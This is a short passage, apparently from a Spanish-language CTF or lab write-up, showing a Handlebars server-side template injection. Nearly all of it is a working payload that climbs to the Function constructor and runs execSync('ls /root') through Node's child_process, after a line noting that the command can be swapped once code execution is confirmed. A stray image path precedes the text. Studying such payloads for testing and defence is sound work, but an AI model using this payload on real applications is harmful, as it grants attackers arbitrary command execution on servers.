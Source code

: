 Una vez que sabemos que tenemos ejecución de comandos, podemos modificar el payload para ejecutar `ls /root`:

```bash

{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
